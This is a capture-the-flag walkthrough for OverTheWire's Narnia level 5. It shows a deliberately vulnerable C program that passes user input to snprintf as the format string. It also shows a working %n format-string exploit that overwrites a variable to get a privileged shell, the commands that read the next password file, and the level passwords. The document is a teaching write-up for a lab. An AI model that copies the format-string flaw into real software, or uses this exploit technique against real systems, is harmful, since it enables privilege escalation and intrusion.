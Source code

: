 # Level 5 → Level 6

## Solution
```
ssh narnia5@narnia.labs.overthewire.org -p 2226
```
```
1oCoEkRJSB
```
```
cd /narnia ; ls -al
```
```
./narnia5
```

![](0.png)

Let's look at the code:

```
cat narnia5.c
```

The printed file is shown below:

```c
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){
        int i = 1;
        char buffer[64];

        snprintf(buffer, sizeof buffer, argv[1]);
        buffer[sizeof (buffer) - 1] = 0;
        printf("Change i's value from 1 -> 500. ");

        if(i==500){
                printf("GOOD\n");
        setreuid(geteuid(),geteuid());
                system("/bin/sh");
        }

        printf("No way...let me give you a hint!\n");
        printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
        printf ("i = %d (%p)\n", i, &i);
        return 0;
}
```

```
./narnia5 $(perl -e 'print "A"x100')
```

![](1.png)

Ok, so the main difference between this challenge and the others is that `strcpy()` is not used. Instead, `snprintf()` is used.

But is the `snprintf` function safe? It turns out [not](https://stackoverflow.com/questions/10112984/buffer-overflow-using-snprintf).
Because it works like `printf` (except for the fact that the user chooses where the output will be printed).
I already had the opportunity to take advantage of `printf`'s weakness in the [microcorruption](https://github.com/SimchaTeich/Microcorruption/tree/main/11%20-%20Addis%20Ababa) challenge, so as soon as I received the reminder about `%n`, I understood what had to be done:

```
./narnia5
```

![](2.png)

```
./narnia5 $(perl -e 'print "\x30\xd5\xff\xff" . "A"x(500-4) . "%n"')
```

![](3.png)

```
./narnia5 $(perl -e 'print "\x30\xd3\xff\xff" . "A"x(500-4) . "%n"')
```
```
id
```
```
whoami
```
```
cat /etc/narnia_pass/narnia6
```

![](4.png)


## Password for the next level:
```
BAV0SUV0iM
```
